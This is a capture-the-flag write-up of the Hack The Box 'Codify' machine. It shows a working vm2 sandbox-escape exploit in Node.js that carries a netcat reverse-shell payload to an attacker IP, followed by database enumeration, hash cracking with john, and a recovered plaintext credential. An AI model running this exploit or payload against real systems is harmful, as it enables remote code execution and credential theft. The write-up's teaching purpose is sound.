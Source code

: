 # Codify
> Write-up author: jon-brandy | Lesson learned: vm2 exploitations, 

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/ed060495-9bbf-4521-8586-e52f9f08aa52)

> PORT SCANNNING:

```
┌──(brandy㉿bread-yolk)-[~]
└─$ nmap -p- -sVC 10.10.11.239 --min-rate 1000
Starting Nmap 7.93 ( https://nmap.org ) at 2023-11-18 00:36 PST
Warning: 10.10.11.239 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.10.11.239
Host is up (0.033s latency).
Not shown: 53951 closed tcp ports (conn-refused), 11581 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 96071cc6773e07a0cc6f2419744d570b (ECDSA)
|_  256 0ba4c0cfe23b95aef6f5df7d0c88d6ce (ED25519)
80/tcp   open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://codify.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
3000/tcp open  http    Node.js Express framework
|_http-title: Codify
Service Info: Host: codify.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 275.72 seconds
```

1. Based from the nmap results, we can identified that the machine runs a web application, opens ssh login and using node.js framework for the webapp.

> WEBAPP

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/95dde7ef-9cee-480e-b93f-0a705d53d68d)


2. Reading the **About Us** page, shows us the door to exploit this web app, the `vm2 (virtual machine 2)` vuln.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/31abcec5-c414-408a-b0eb-170397adf10b)


3. Searching on the internet about vm2 vulns, shall resulting to this:

```
VM2 --> Is a library that provides a secure and sandboxed environment for executing JavaScript code. Primarily used in server side
environments such as Node-JS.

https://www.uptycs.com/blog/exploitable-vm2-vulnerabilities (the newest one --> 2023).
```

4. Also found a github POC.

```
https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244
```

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/0d9e4426-3a8a-4331-8efd-6e217c3944e9)


```txt
const {VM} = require("vm2");
const vm = new VM();

const code = `
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
  
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync('touch pwned');
}
`

console.log(vm.run(code));
```


5. To test the POC, we can try by sending --> `ls ./`

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/edbefc30-e90b-43de-9bb7-1f2c1cd21182)


6. Great it executes our bash command, hence let's put our reverse shell payload there.

> succeed payload

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.18 1337 >/tmp/f
```

> RESULT

```txt
const {VM} = require("vm2");
const vm = new VM();

const code = `
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
  
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.18 1337 >/tmp/f');
}
`

console.log(vm.run(code));
```

> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/6bfefadb-8436-41fa-9b1d-f3f59fd34bd2)


7. Notice that there is a user named **joshua** and we can't cd there.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/9c1ec6bd-8f41-47e6-b0ab-00071936ae8a)


8. Now we need to enumerate dirs and files, our objective should be a config file or .db file.
9. Long story short, found tickets.db at --> `/var/www/contacts`.

> FOUND JOSHUA CRED

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/01d4894f-6888-49be-bc35-a6f23e924dd4)


10. Let's crack the hash using rockyou.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/b6da0163-21cd-47dd-8124-6e2c68ab4850)

#### NOTES: If you want to list all available formats, simply run --> john --list-formats

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/126301b7-5671-40f1-a3c0-6db8763d1213)


11. Great! Now we have joshua cred --> `joshua:spongebob1`.


